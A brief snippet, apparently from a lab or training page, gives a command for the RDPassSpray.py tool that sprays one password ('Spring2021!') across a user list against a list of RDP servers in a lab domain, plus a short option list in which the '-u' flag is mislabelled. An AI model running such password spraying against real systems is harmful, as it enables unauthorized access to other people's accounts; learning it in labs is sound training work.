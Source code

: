 
```Shell
python3 RDPassSpray.py -U usernames-list.txt -p Spring2021! -d THM-labs -T RDP_servers.txt
```

-U USERLIST, Users list to use, one user per line 
-u USER, Single password to use 
-P PASSWORDLIST, one password per line 
-T TARGETLIST, one target per line 
-t TARGET
-d DOMAIN

